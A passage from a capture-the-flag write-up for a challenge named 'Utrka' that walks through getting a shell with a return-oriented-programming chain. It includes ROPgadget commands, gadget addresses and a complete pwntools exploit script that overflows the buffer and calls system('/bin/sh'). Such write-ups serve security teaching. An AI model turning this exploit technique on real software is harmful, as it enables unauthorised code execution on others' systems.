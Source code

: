 ```text
You lose :(

CTF2024[395847397764]AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAAp7\[*] Got EOF while reading in interactive
```

Flag acquired!

-----------------------

### Utrka 2

For Utrka 2 nothing changes except that we are told the filename of the other flag `systemOwnFlag.txt`.

To get this flag we need to get a shell, the easiest way to do that is through [ROP](https://book.hacktricks.xyz/binary-exploitation/rop-return-oriented-programing). 

Using [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) like this:

```
ROPgadget --binary utrka --ropchain
```

we can get it to generate a payload for us that would automatically give us a shell, unfortunately it isn't that easy. We are quite limited by space so we are gonna have to craft our own ropchain and one that can fit into our
relatively small buffer overflow.

Our way to a shell is through the [system](https://en.cppreference.com/w/c/program/system) function. It takes a pointer to a string into the `rdi` register and runs that string as a shell command.
We want to give it the location for the `/bin/sh` string in order to get a shell.

Let's first check if it is in our binary with this

```
strings utrka | grep /bin/sh
/bin/sh
```

Now we need a way to get the location of that string into the `rdi` register. We need a `pop rdi` gadget
```
ROPgadget --binary utrka | grep 'pop rdi ; ret'
0x00000000004880fb : add al, ch ; pop rdi ; retf 0xfff7
0x000000000040256f : pop rdi ; ret
0x00000000004880fd : pop rdi ; retf 0xfff7
```

Looks like that is in here as well.

Time to craft our exploit, and just as before we are going to have to align the stack frame before calling system.

```python
from pwn import *

elf = ELF('./utrka')
rop = ROP(elf)

payload = b'A' * cyclic_find(0x63616171)                     # padding
payload += p64(rop.find_gadget(['pop rdi', 'ret']).address)  # pop address of /bin/sh into rdi
payload += p64(next(elf.search(b'/bin/sh')))                 # address of /bin/sh
payload += p64(rop.find_gadget(['ret']).address)             # align stack frame
payload += p64(elf.symbols['system'])                        # profit

p = process('./utrka')
p.sendline(payload)
p.interactive()
```
